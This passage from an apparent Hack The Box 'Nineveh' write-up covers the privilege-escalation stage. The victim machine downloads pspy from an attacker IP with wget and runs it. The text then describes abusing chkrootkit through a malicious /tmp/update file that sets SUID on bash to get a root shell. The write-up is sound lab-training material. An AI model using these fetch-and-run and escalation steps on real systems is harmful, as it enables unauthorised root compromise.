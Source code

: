 > **Victime Machine**:

```bash
wget http://10.10.14.22/pspy
chmod +x pspy
./pspy
# :( Version Problem
```

> **Attacker Machine**:

```bash
mv /home/al3j0/Downloads/pspy64 ./pspy
python3 -m http.server 80
```

> **Victime Machine**:

```bash
wget http://10.10.14.22/pspy
chmod +x pspy
./pspy
# :)
```

<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_63.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_64.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_65.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_66.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_67.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_68.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/nineveh_writeup/Nineveh_69.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

To escalate privileges, I just had to search for an exploit for `chkrootkit` with `searchsploit` and I found one that gives me the necessary steps to finish engaging the box. I don't know the version of the binary, but since it is a well-known vulnerability I will follow the steps and try to escalate privileges. I create a malicious **update** file in the path **/tmp** whose content is a system command that enables the **SUID** bit to the `bash` Shell, after waiting a while the bit is modified and I can get a shell impersonating the **root** user, finally I succeed in engaging the box.

> **Attacker Machine**:

```bash
searchsploit chkrootkit
searchsploit -x linux/local/33899.txt
```
